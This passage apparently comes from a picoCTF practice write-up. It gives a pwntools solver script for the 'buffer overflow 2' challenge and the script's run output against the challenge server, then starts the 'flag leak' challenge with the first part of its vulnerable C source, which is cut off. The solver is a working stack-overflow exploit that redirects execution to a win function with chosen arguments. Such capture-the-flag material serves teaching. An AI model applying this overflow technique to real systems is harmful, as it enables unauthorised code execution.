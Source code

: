 ```python
#!/usr/bin/python3.8
from pwn import *
import warnings
warnings.filterwarnings('ignore')

r = remote('saturn.picoctf.net', 53721)
e = ELF('./vuln')

ret = 0x08049009

payload = flat({
  0x70: p32(e.sym.win) + p32(ret) + p32(0xCAFEF00D) + p32(0xF00DF00D)
 })

r.sendline(payload)
r.interactive()
```

```bash
➜  buffer overflow 2 git:(main) ✗ python solver.py
[+] Opening connection to saturn.picoctf.net on port 53721: Done
[*] '/home/w3th4nds/github/Pico-CTF-Practice/Binary-Exploitation/buffer overflow 2/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] Switching to interactive mode
Please enter your string: 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxa\xf0\xfe\xcaabcaab\x96\x92\x04    \x90\x04
picoCTF{XXX}
```

### flag leak

Download the files and `cat vuln.c`.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

```
